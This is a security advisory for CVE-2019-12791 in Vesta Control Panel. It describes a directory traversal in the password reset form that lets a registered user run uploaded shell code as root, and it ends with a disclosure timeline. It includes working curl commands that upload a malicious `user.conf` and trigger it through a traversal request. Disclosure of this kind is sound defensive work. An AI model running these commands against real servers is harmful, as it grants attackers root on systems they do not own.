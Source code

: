 ```yaml
---
title: '[CVE-2019-12791] Vesta Control Panel 0.9.8-24 — Privilege escalation in the password reset form'
description: Privilege escalation to root can be achieved by a regular user via the password reset form exploiting a directory traversal vulnerability.
tags: [Vesta Control Panel, Privilege escalation, password reset]
advisory:
  discovered: 2019-04-17
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12791
---
```


## Abstract

The insufficient input sanitization used by the `v-list-user` shell utility allows to perform directory traversal and execute shell files as `root` anywhere in the file system but with a fixed file name.

This coupled with the legitimate ability of registered users to upload files in certain locations on the server grants an attacker the ability to perform privilege escalation from a registered user to `root` by simply requesting a password reset.

This possibly impacts the [HestiaCP](https://www.hestiacp.com/) project too as it is a fork of VestaCP.

## Details

The `v-list-user` script accepts an user name as an argument then evaluates the `$VESTA/data/users/$user/user.conf` file and prints some values:[^vesta-variable]

```sh
source $VESTA/data/users/$user/user.conf
```

The only check that is performed against the user name is `is_object_valid 'user' 'USER' "$user"` which basically checks that the path `$VESTA/data/users/$user` is a valid directory. So if `../../../../../tmp` is passed as user name then the file `/tmp/user.conf` is evaluated.[^any-writable]

A registered user can upload files on the server using the `/upload/` endpoint. The following is used to upload the proof script to `/tmp/user.conf`:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ COMMAND='id > /usr/local/vesta/web/proof'
$ echo "$COMMAND" | curl -sk -o /dev/null \
    'https://target.com:8083/upload/?dir=/tmp' \
    -b "PHPSESSID=$PHPSESSID" \
    -F 'files=@-;filename=user.conf'
```

It is then possible to invoke the `v-list-user` utility by requesting a password reset:

```console
$ curl -k https://target.com:8083/reset/ -d 'user=../../../../../tmp'
```

In VestaCP the web server is run by the `admin` user and the password reset page executes the `v-list-user` script with `sudo` thus the `user.conf` is evaluated by `root`.

Check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^any-writable]: Any other writable location can be used, e.g., the user home directory.

[^vesta-variable]: `$VESTA` is usually set to `/usr/local/vesta/`.

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-07-31
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/bb44f4197b4e5de219bc00197f89517c7e92bc2a) the vulnerability.
